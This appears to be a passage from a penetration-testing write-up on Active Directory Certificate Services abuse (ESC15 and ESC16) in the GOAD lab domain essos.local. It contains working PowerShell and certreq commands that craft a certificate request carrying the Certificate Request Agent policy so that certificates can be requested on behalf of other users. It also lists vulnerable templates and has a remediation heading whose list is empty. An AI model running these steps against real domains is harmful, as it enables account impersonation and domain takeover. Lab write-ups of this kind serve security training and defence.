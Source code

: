 ```bash
$craInfContent = @"
[NewRequest]
Subject = "CN=missandei,CN=Users,DC=essos,DC=local"
KeyLength = 2048
KeyAlgorithm = RSA
MachineKeySet = FALSE
RequestType = PKCS10
CertificateTemplate = WebServer

[Extensions]
1.3.6.1.4.1.311.21.10 = "{text}1.3.6.1.4.1.311.20.2.1"
"@

$craInfContent | Out-File -FilePath "esc15-cra.inf"
```

`certreq -new -f esc15-cra.inf esc15-cra.req`
`certreq -submit -config "braavos.essos.local\ESSOS-CA" esc15-cra.req`

Now we can request certificates on behalf of other users!

### Vulnerable Default Templates

All version 1 templates are potentially vulnerable when enrollment rights are granted in GOAD:
- **WebServer** (most commonly exploited) ✓ Found in GOAD
- ExchangeUser
- CEPEncryption  
- OfflineRouter
- IPSECIntermediateOffline
- SubCA
- CA
- EnrollmentAgentOffline

### Remediation

**Microsoft has patched this vulnerability as of November 12, 2024 (CVE-2024-49019).** Additional protective measures include:


## ESC16: CA-Wide Security Extension Removal

**Status: ACTIVE THREAT**

ESC16 represents a critical misconfiguration where the Certificate Authority is configured to omit the `szOID_NTDS_CA_SECURITY_EXT` extension (OID: `1.3.6.1.4.1.311.25.2`) on every certificate it issues. This vulnerability was first documented in research by Munib Nawaz and has been incorporated into Certipy v5+ detection capabilities.

### Technical Details

ESC16 arises when the CA is configured to **omit** the `szOID_NTDS_CA_SECURITY_EXT` extension on every certificate it issues. Without this extension, a certificate no longer includes the account's SID, breaking the strong certificate-to-account binding enforced by Windows Server 2022 and later (KB5014754).
